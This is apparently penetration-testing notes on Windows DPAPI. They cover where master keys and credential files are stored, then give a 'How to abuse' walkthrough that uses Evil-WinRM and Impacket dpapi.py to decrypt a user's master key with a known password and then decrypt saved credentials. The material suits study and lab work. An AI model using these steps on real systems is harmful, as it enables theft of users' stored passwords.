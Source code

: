 ```yaml
---
description: The DPAPI (Data Protection API) is an internal component in the Windows system
---
```


# DPAPI

DPAPI stands for "Data Protection Application Programming Interface". DPAPI is a cryptographic interface that has been available since Windows 2000. It's important to note that DPAPI itself does not store any data. The sole function of DPAPI is to take plaintext input and convert it into ciphertext.

Among the personal data protected by DPAPI are:

* Internet Explorer and Google Chrome's passwords and auto-completion data
* Email and internal FTP accounts
* Passwords for shared folders, resources, wifi and Windows Vault
* Passwords for RDP
* Network passwords managed by Credential Manager.

### <mark style="color:yellow;">How does it work</mark>

DPAPi is a system thats helps securly store and protect sensitive information as such as passwords, cryptographic keys and other secrets.

#### Key management

DPAPI uses symmetric keys, or just 1 key instead of a keypair which is assymetric. This is derived from user credentials or domain secrets or logon credentials.

#### Where are DPAPI keys store?

The master keys is stored in the following locatin. It uses the SID of a user which containts the keys needed to decrypt data for that user.

```powershell
# Master keys
%APPDATA%\Microsoft\Protect\{SID}

# Crome, RDP, Certs
C:\Users\$USER\AppData\Local\Microsoft\Credentials\
C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\
C:\Users\$USER\AppData\Roaming\Microsoft\Protect

# more
Get-ChildItem C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem C:\Users\USER\AppData\Local\Microsoft\Protect
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\{SID}
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\{SID}
```

#### Decryption

The master key protects encryption keys, a symmetric key is derived from user's login credentials to unlock the master key.

#### **Entropy and Initializing Vector (IV)**

* **Entropy** is an optional additional key that can be used during the encryption process.
* It acts as an **Initializing Vector (IV)**, a random value added to the first block of encrypted data.

Adding entropy increases security by ensuring that only the specific user or application with the correct extra key can decrypt the data.

> **Key Point**: Without the correct IV (or entropy), the first block of data cannot be decrypted, which makes decrypting the entire dataset impossible.

#### Process

1. DPAPI generates user key based on password
2. DPAPI generates random master key and encrypts it with user key.
3. CryptProtecData is called to create session key which is derived from master key.
4. Password is ecnrypted with session key which encrypts the data.

### <mark style="color:yellow;">How to abuse</mark>

First find the keys

```powershell
*Evil-WinRM* PS C:\Users\user\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115> Get-ChildItem -Force
Directory: C:\Users\user\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          6/7/2024   1:17 PM            740 4dbf04d8-529b-4b4c-b4ae-8e875e4fe847
-a-hs-          6/7/2024   1:17 PM            740 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
-a-hs-          6/7/2024   1:17 PM            904 BK-VINTAGE
-a----         12/2/2024   3:23 PM          14043 ttest.png
-a-hs-          6/7/2024   1:17 PM             24 Preferred
```

Decrypt the masterkey

```powershell
dpapi.py masterkey -file "/path/to/masterkey_file" -sid $USER_SID -password $MASTERKEY_PASSWORD

# Example
dpapi.py masterkey -file "/home/kali/99cf41a3-a552-4cf7-a8d7-aca2d6f7339b" -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```

Then decrypt credentials using the masterkey

```powershell
dpapi.py credential -file "/home/kali/C4BB96844A5C9DD45D5B6A9859252BA6" -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```
